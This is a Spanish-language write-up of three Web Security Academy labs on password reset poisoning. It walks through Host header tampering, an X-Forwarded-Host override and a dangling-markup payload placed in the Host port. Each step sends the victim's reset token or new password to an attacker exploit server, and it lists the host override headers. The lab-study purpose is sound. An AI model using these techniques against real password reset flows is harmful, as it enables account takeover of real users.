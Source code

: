 # Password reset poisoning Laboratories

This lab is vulnerable to password reset poisoning. The user carlos will carelessly click on any links in emails that he receives. To solve the lab, log in to Carlos's account.

You can log in to your own account using the following credentials: wiener:peter. Any emails sent to this account can be read via the email client on the exploit server.

- The user carlos will carelessly click on any links in emails that he receives. To solve the lab, log in to Carlos's account.

1. necesitamos un usuario con cuenta y propio. En este caso wiener

2. Restablecemos la contraseña de wiener y nos devuelve una url de reseteo de contraseña

![](assets/2022-07-11-10-26-29.png)

```html
https://aaaa/forgot-password?temp-forgot-password-token=GCWdQObfKJqEMLZu477N9Xsuq5cu9fEq
```
3. Ponemos una contraseña que queramos
   

4. Vamos a la peticion post forgot-password, hay que tener cuidado porque me aparecen 2. La que vale es la que no tiene el token.

Cambiamos el host por otro cualquiera y vamos al servidor de explotación

![](assets/2022-07-11-18-06-09.png)

5. Miramos que aparece el aaaa justo delante del host

![](assets/2022-07-11-18-06-48.png)

6. Vamos a burp repeater y cambiamos el host al de nuestro collaborator y el nombre a carlos que es el que nos piden

7. Vaya a su servidor de explotación y abra el registro de acceso. Verá una solicitud GET /forgot-password con el temp-forgot-password-tokenparámetro que contiene el token de restablecimiento de contraseña de Carlos. Tome nota de esta ficha.

8rJonZpH98wLdG6l40OXqrJHamiKZB3v

![](assets/2022-07-11-18-20-00.png)

8. Cogemos la url de restablecimiento del correo del punto 2. y sustituir el token.
https://0ae2006b0354456ec0c1537600d50042.web-security-academy.net/forgot-password?temp-forgot-password-token=NaZhJ4oRUmyXaOByzuSDv02KQVfZsa4L


https://0ae2006b0354456ec0c1537600d50042.web-security-academy.net/forgot-password?temp-forgot-password-token=8rJonZpH98wLdG6l40OXqrJHamiKZB3v


![](assets/2022-07-11-18-20-53.png)

## Lab: Password reset poisoning via middleware

This lab is vulnerable to password reset poisoning. The user carlos will carelessly click on any links in emails that he receives. To solve the lab, log in to Carlos's account. You can log in to your own account using the following credentials: wiener:peter. Any emails sent to this account can be read via the email client on the exploit server.

En este caso no se puede hacer con el mismo host.. habría que probar

Inject host override headers

-   X-Forwarded-Host
-   X-Host
-   X-Forwarded-Server
-   X-HTTP-Host-Override
-   Forwarded

Es igual que el de antes

1. mandamos peticion de restablecimiento
2. capturasmos ese post
3. Este no podemos hacerlo mediante cambio de host porque está capado. Usamos x-forwarded-host y enviamos el servidor de explotacion y el cambio de nombre.

![](assets/2022-07-11-18-31-43.png)

4. Miramos en el log

![](assets/2022-07-11-18-31-26.png)

Cambiamos nuestra url de cambio de password vista en el punto 1 y añadimos el token wpwcdnsIEMktUSyK6BGBXy6tkX3JTwAx

https://0afc0050039b9ddec0cf6f3200d70039.web-security-academy.net/forgot-password?temp-forgot-password-token=wpwcdnsIEMktUSyK6BGBXy6tkX3JTwAx

![](assets/2022-07-11-18-34-40.png)

## Lab: Password reset poisoning via dangling markup

This lab is vulnerable to password reset poisoning via dangling markup. To solve the lab, log in to Carlos's account.

You can log in to your own account using the following credentials: wiener:peter. Any emails sent to this account can be read via the email client on the exploit server.


Este tipo de ejercicios también es facil. En prinipio cuando hacemos la peticion de restablecimiento no nos devuelve un token por lo que por ese sitio no podemos ir.

![](assets/2022-07-11-18-56-59.png)

En el cliente de correo electrónico, observe que tiene la opción de ver cada correo electrónico como HTML sin procesar. A diferencia de la versión renderizada del correo electrónico, este no parece estar desinfectado de ninguna manera.

Podemos observar que hace un satinize dom por lo que deberíamos de obtener la petición sin procesar

![](assets/2022-07-11-19-00-00.png)

En el forgot pasword vemos que si cambiamos la url no funciona 

![](assets/2022-07-11-19-02-36.png)

En los apuntes nos dicen que una forma de poder sobrepasar esto es poniendole un puerto, ponemos una cadena aleatoria para ver si funciona y luego poder usar cualquier cosa

![](assets/2022-07-11-19-04-06.png)

Miramos el raw de la petición en el servidor de correos electronicos para ver el correo antes de ser procesado

```html
Sent:     2022-07-11 17:03:24 +0000
From:     no-reply@0ac9001304efba88c04e36db00330093.web-security-academy.net
To:       wiener@exploit-0a75006f043cba5bc0b836ec01ff00e9.web-security-academy.net
Subject:  Account recovery

<p>Hello!</p><p>Please <a href='https://0ac9001304efba88c04e36db00330093.web-security-academy.net:adafdfa/login'>click here</a> to login with your new password: A0qMktlQf0</p><p>Thanks,<br/>Support team</p><i>This email has been scanned by the MacCarthy Email Security service</i>

```
Aquí lo importante es lo siguiente

```html
<!--A partir del puerto hay que ver lo que pone. -->
https://0ac9001304efba88c04e36db00330093.web-security-academy.net:adafdfa/login'>click here</
```
La idea es cerrar y poner en el puerto lo que nosotros necesitamos.

```html
'<a href="//your-exploit-server-id.web-security-academy.net/?


exploit-0a75006f043cba5bc0b836ec01ff00e9.web-security-academy.net


'<a href="//exploit-0a75006f043cba5bc0b836ec01ff00e9.web-security-academy.net/?
```
Cambiamos el nombre también a carlos

![](assets/2022-07-11-19-09-33.png)

Si hubiesemos hecho esto con wineer iría a correos además de al log, en este caso hemos puesto directamente carlos, así que vamos al log

![](assets/2022-07-11-19-14-06.png)

BcLTY5O8rx

![](assets/2022-07-11-19-15-26.png)